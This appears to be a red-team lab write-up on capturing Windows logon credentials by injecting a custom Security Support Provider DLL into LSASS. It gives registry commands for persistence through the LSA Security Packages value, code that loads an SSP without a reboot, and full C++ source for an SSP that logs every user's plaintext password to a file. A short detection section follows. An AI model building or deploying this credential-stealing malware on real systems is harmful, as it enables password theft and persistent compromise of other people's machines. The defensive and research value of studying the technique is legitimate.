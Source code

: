 ```yaml
---
layout: post
title: "2024-06-18-intercepting logon credentials via custom security support provider and authentication package"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package/
---
```


---
description: Credential Access, Persistence
---

# Intercepting Logon Credentials via Custom Security Support Provider and Authentication Packages

This technique abuses Windows Security Support Provider (SSP) and Authentication Packages (AP) that come in the form of DLLs that get injected into LSASS.exe process on system boot or dynamically via `AddSecurityPackage` API.

## Loading SSP with Reboot

In this lab, mimikatz Security Support Provider [mimilib.dll](https://github.com/gentilkiwi/mimikatz) will be registered as a Windows Security Package.&#x20;

Once the Security Package is registered and the system is rebooted, the mimilib.dll will be loaded into lsass.exe process memory and intercept all logon passwords next time someone logs onto the system or otherwise authenticates, say, via `runas.exe`.

Let's now build the [mimilib.dll](https://github.com/gentilkiwi/mimikatz) and copy it to the target machine's system32 folder:

{% code title="attacker@target" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode %}

Get a list existing LSA Security Packages:

{% code title="attacker@target" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode %}

Add mimilib.dll to the Security Support Provider list (Security Packages):

{% code title="attacker@target" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```
{% endcode %}

The below shows `Security Packages` registry value with the `mimilib` added and the `kiwissp.log` file with a redacted password that had been logged during the user logon (after the system had been rebooted after the Security Package was registered):

![](../../.gitbook/assets/lsa-security-packages.png)

```
Reboot is required for the new SSP to take effect after it's been added to the Security Packages  list.
```

## Loading SSP without Reboot

It's possible to load the SSP DLL without modifying the registry:

![](<../../.gitbook/assets/image (423).png>)

Below code loads the malicious SSP spotless.dll:

```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\spotless.dll", &spo);
	return 0;
}
```

Below shows how the new Security Package spotless.dll is loaded by lsass and is effective immediately:

![procmon filter: path contains "spotless"](../../.gitbook/assets/load-ssp.gif)

```
Loading the SSP with this approach does not survive a reboot unlike SSPs that are loaded as registered Security Packages via registry.
```

## Detection

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` for changes.&#x20;

Newly added packages should be inspected:

![](../../.gitbook/assets/lsa-commandline.png)

Additionally, mimilib.dll (same applies to custom spotless.dll) can be observed in the list of DLLs loaded by lsass.exe, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor it for any new suspicious DLLs:

![](<../../.gitbook/assets/Screenshot from 2018-07-24 23-08-39 (1) (1).png>)

## Code

Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored to suit this lab, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\logged-pw.txt`:

```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSSPotless";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSSPotless <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\logged-pw.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```

## References

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/secauthn/lsa-mode-initialization" %}

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" %}

{% embed url="https://adsecurity.org/?p=1760" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" %}

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" %}
@spotheplanet
